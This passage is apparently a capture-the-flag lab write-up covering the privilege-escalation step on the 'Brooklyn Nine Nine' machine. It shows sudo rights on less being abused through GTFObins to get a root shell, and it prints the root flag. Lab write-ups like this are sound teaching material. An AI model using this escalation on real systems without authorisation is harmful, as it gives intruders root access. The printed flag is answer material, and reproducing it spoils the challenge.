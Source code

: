 ## Privilege Escalation

For [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we first check sudo commands for user jake :

```
└─$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

we can see we have sudo for **[Less](../../3%20-%20Tags/Hacking%20Concepts/Less.md)** .

### GTFObins

Using [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) we search for SUDO - less :

![af573d8a895fa379e07c75476177ef3e.png](../../../2%20-%20Resources/Others/Flameshots/af573d8a895fa379e07c75476177ef3e.png)

we paste the command in our terminal and confirm with enter :

```
jake@brookly_nine_nine:~$ sudo less /etc/profile

# whoami
root
# 

```

and we search for flag :

```
# cat /root/root.txt                           
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!

```
